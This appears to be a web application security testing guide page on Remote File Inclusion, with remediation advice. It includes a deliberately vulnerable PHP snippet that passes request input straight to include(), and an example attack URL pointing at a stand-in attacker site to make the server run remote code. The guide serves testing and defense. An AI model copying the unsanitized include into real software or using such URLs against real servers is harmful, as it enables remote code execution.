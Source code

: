 # Testing for Remote File Inclusion

## Summary

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a “dynamic file inclusion” mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

- Code execution on the web server
- Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS)
- Denial of Service (DoS)
- Sensitive Information Disclosure

Remote File Inclusion (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing external URL to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

## How to Test

Since RFI occurs when paths passed to “include” statements are not properly sanitized, in a black-box testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:

```php
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

In this example the path is extracted from the HTTP request and no input validation is done (for example, by checking the input against a whitelist), so this snippet of code results vulnerable to this type of attack. Consider the following URL:

`http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page`

In this case the remote file is going to be included and any code contained in it is going to be run by the server.

## References

### White Papers

- [“Remote File Inclusion”](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)
- [Wikipedia: “Remote File Inclusion”](https://en.wikipedia.org/wiki/Remote_File_Inclusion)

## Remediation

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this is not possible the application can maintain a whitelist of files, that may be included by the page, and then use an identifier (for example the index number) to access to the selected file. Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path.
